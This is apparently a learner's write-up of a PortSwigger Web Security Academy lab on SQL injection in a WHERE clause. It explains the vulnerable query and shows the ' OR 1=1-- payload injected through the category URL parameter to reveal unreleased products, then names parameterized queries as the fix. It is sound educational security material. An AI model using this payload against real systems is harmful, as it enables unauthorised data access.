

# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Apprentice
- **Lab URL:** (https://0a5200a504680ab4806c6cfe00c8004f.web-security-academy.net/)

---

## 1. Description & Objective

The application contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application executes an SQL query to retrieve released products.

**Goal:** Intercept the category filter query, inject an SQL payload to display all products (both released and unreleased), and solve the lab.

---

## 2. Vulnerability Analysis

The backend database query looks similar to this:

\`\`\`sql
SELECT \* FROM products WHERE category = 'Gifts' AND released = 1
\`\`\`

Because the user input in the `category` parameter is concatenated directly into the query without parameterization or sanitation, an attacker can break out of the string literal using a single quote (`'`).

---

## 3. Step-by-Step Walkthrough

### Step 1: Detecting the Injection Point

1. Navigated to the lab homepage.
2. Selected a category filter (e.g., `Gifts`).
3. Appended a single quote `'` to the category in the URL:
   \`\`\`
   /filter?category=Gifts'
   \`\`\`
4. The server responded with an **Internal Server Error (500)**, confirming that the single quote broke the query syntax.

### Step 2: Exploitation

To force the query to evaluate to true for all rows:

- We inject `' OR 1=1--`

The resulting query executed on the database becomes:
\`\`\`sql
SELECT \* FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
\`\`\`

- `'` closes the category string.
- `OR 1=1` ensures the `WHERE` condition is always true.
- `--` comments out the rest of the query (`AND released = 1`), bypassing the release check.

### Step 3: Verification

Applied payload in the URL:
\`\`\`
/filter?category=Gifts'+OR+1=1--
\`\`\`

All products (including hidden/unreleased ones) were displayed, and the lab was marked as solved!

---

## 4. Key Takeaways & Remediation

- **Cause:** Untrusted user input was directly concatenated into an SQL command.
- **Fix:** Use **Parameterized Queries (Prepared Statements)** or Object-Relational Mappers (ORMs) to ensure user input is treated strictly as data, never as executable code.
